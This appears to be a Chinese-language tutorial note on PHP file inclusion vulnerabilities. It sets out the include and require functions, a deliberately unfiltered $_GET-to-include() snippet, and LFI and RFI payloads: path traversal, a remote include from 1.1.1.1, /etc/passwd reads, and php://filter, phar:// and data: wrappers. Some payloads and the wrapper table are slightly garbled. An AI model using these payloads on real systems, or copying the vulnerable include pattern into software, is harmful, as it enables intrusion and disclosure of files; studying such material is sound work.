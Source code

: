 # 文件包含原理

#### **文件包含函数**

| 文件包含函数          | 返回值                 | 限制           |
| --------------- | ------------------- | ------------ |
| include()       | 包含出错，只是提示但是后续依然执行代码 | 不限制          |
| require()       | 包含出错，直接退出，不执行后续代码   | 不限制          |
| include\_once() | 同include            | 不能包含已经包含过的文件 |
| require\_once() | 同require            | 不能包含已经包含过的文件 |

#### **文件包含代码**

**漏洞代码**

```php
<?php 
$file=$_GET['file'];
include(file);
?>
//file获取未做任何过滤
```

**攻击代码a.php**

**使用4个文件包含函数包含文件，与文件后缀无关，txt，png文件后缀依然能够当成php代码解析**

```php
<?php 
phpinfo();
?>
```

#### 文件包含分类

**本地文件包含LFI**

* a.php存放在本地
* payload
  * ../../../../../a.php
* 执行效果
  * 成功解析phpinfo

**远程文件包含**

* 前提条件

```
php.ini配置文件中两个开关必须同时打开（注意是必须同时）
allow_url_fopen=on
allow_url_include=on
```

* a.php存放在远程远程服务器，例:1.1.1.1
* payload
  * http://1.1.1.1/a.php
*   执行效果

    * 成功解析phpinfo

    **php伪协议**
* 前置
  * 不同的协议拥有不同的前置条件
* payload
  * file//etc/passwd
  * http://1.1.1.1/a.php
  * php://filter/convert.base64-encode/resource=a.php
  * pchar://1.1.1.1/test.zip/a.php
  * data:text/plain,
* 执行效果
  * 成功解析phpinfo
  * php://filter返回php代码的base64编码内容，可反向编码获取php代码

| php伪协议       | 用途                                                                             | 常用敏感文件      | allow\_url\_include | allow\_url\_fopen |
| ------------ | ------------------------------------------------------------------------------ | ----------- | ------------------- | ----------------- |
| file://      | 访问本地文件系统                                                                       | /etc/passwd | 无                   | 无                 |
| php://input  | 直接读取POST请求的没有经过解析的原始数据，可以理解为POST请求的body参数，且只能为字符串不能为键值对；file\_get\_contents可利用 | on          | 无                   |                   |
| php://filter |                                                                                | 无           | 无                   |                   |
| phar://      | php解压压缩包的伪协议，无论什么后缀都可以当成压缩包解压                                                  | 无           | 无                   |                   |
| data://      | 数据流封装器                                                                         | on          | on                  |                   |

